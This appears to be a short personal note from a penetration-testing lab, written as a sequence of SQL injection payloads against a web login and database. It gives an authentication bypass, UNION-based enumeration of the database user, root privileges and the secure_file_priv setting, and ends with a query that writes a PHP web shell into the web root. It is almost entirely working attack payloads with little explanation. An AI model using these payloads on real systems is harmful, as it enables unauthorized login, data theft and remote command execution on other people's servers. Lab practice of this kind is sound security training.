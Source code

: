 ____

# Authentication bypass

```sql
admin' or 1=1#
```

# Database enum

```sql
test' union select 1,2,3,4,5-- -
```

![[Pasted image 20240928132338.png]]

## User

```txt
root@localhost
```


```sql
test' union select 1,2,3,grantee, privilege_type FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

![[Pasted image 20240928132722.png]]

```sql
test' union select 1,2,3,variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

![[Pasted image 20240928132821.png]]

# Web shell

```aql
test' union select 1,'<?php system($_REQUEST[0]); ?>', 3,4,5 into outfile '/var/www/html/dashboard/shell.php'-- -
```

